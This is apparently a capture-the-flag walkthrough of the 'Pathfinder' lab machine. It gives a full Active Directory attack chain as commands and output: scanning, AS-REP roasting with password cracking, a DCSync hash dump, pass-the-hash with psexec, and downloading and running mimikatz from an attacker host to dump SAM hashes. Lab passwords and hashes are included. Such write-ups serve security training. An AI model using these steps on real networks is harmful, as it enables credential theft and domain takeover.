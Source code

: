 # Pathfiner
```bash
export IP=10.10.10.30
```

# Enumeration

```bash
nmap -sV -sc -oA pathfinder_nmap -Pn IP
```

Tried gobuster and connection was refused

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-17 17:49 EDT
Nmap scan report for 10.10.10.30
Host is up (0.31s latency).
Not shown: 971 closed ports
PORT      STATE    SERVICE        VERSION
53/tcp    open     domain         Simple DNS Plus
88/tcp    open     kerberos-sec   Microsoft Windows Kerberos (server time: 2021-09-18 05:04:25Z)
135/tcp   open     msrpc          Microsoft Windows RPC
139/tcp   open     netbios-ssn    Microsoft Windows netbios-ssn
389/tcp   open     ldap           Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
548/tcp   filtered afp
593/tcp   open     ncacn_http     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
683/tcp   filtered corba-iiop
1233/tcp  filtered univ-appserver
1300/tcp  filtered h323hostcallsc
1812/tcp  filtered radius
3268/tcp  open     ldap           Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
3945/tcp  filtered emcads
4000/tcp  filtered remoteanything
4321/tcp  filtered rwhois
5432/tcp  filtered postgresql
5911/tcp  filtered cpdlc
8086/tcp  filtered d-s-n
8193/tcp  filtered sophos
9485/tcp  filtered unknown
20222/tcp filtered ipulse-ics
41511/tcp filtered unknown
49154/tcp filtered unknown
54045/tcp filtered unknown
65000/tcp filtered unknown
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h14m07s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-09-18T05:04:54
|_  start_date: N/A

```
Tried using smbclient and got nothing from it

The machine is using ldap so you can use evil-winrm

From the last machine you find sandra's credentials which are
```
username: sandra
password: Password1234
```

try to log in with the following

```bash
evil-winrm -u sandra -p Password1234! -i $IP
```
you get logged into the machine
sandra only has read access to very limited things so you can't do anything with this at the moment

## Attacking ldap
```bash
ldapdomaindump -u MEGACORP\\sandra -p Password1234! -o ldapinfo 10.10.10.30 --no-json --no-grep
```

```bash
html2text domain_users.html
```

find `svc_bes` doesn't need to be auth

```bash
impacket-GetNPUsers MEGACORP.LOCAL/svc_bes -dc-ip 10.10.10.30 -request -no-pass -format john > for_john
```
MEGACORP.LOCAL -> ldap domain
john is the format we want, the default is hashcat

delete the first 3 lines from the for_john

## Using john

```bash
john for_john --wordlist=/usr/share/wordlists/rockyou.txt
```

you get a password of `Sheffield19` -> `$krb5asrep$svc_bes@MEGACORP.LOCAL`

## login again using evil-winrm

``bash
evil-winrm -u svc_bes -p Sheffield19 -i $IP
```

logged in

```bash
dir -s user.txt
```
flage -> b05fb166688a8603d970c6d033f637f1

## escalating privilege

active directory dcsync attack -> uses ms-drsr to pretend to be a domain controller in order to get credentials of another user

```bash
impacket-secretsdump MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
```
This comand will give you the hash for the administrator account
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::`

Can use the hash to do a pass the hash attack

```bash
impacket-psexec Administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```
this gives you a reverse shell as admin

On the desktop of the admin account the root flag is found -> ee613b2d048303e5fd4ac6647d944645

## Post flags

```
powershell -c "wget http://10.10.14.46:8000/mimikatz.exe" -OutFile mimi.exe
```

run mimi.exe

```bash
lsadump::sam
```

```
Domain :PATHFINDER
SysKey : b9ad9ef9bc5edcf7f27336c7dae56694
Local SID : S-1-5-21-1587172018-431887044-2124448411

SAMKey : 2d84148f707e2d26f55f4ae3f206f3cf

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7facdc498ed1680c4fd1448319a8c04f

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
```

Using crack station crack the admin password -> Password1!